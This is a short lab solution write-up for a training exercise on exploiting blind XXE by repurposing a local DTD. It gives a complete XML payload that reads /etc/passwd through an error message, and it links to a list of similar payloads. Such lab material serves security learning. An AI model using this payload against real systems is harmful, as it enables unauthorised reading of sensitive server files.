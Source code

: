 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

Description :
 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

payload

```XML

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % constant 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
<message></message>
<message></message>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

A GOOD Resource for this type of payload & and this attacks Depends on local dtd , so u can save the same payload and search for other local dtds in order to find one that do exists in your environment

<https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md>
